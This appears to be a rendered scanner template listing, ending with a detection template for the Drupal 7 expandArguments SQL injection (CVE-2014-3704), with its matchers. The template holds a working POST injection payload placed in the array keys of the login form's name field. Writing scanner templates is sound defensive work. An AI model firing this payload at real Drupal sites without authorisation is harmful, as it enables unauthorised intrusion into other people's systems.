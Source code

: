 ### Matchers

**Type - word**

- part - body
- words
  1. "ok":true
  2. "data"
  3. "repolink":"
- condition - and

**Type - status**

- status
  1. 200

---

# Drupal SQL Injection

## Description

- The expandArguments function in the database abstraction API in Drupal core 7.x before 7.32 does not properly construct prepared statements, which allows remote attackers to conduct SQL injection attacks via an array containing specially crafted keys.
- severity - high
- tags - edb,cve,cve2014,drupal,sqli

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/?q=node&destination=node
  - pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0x23,concat(1,md5({{num}})),1)%23]=bob&name[0]=a

### Matchers

**Type - word**

- words
  1. PDOException
  2. {{md5({{num}})}}
- condition - and
- part - body

**Type - status**

- status
  1. 500

---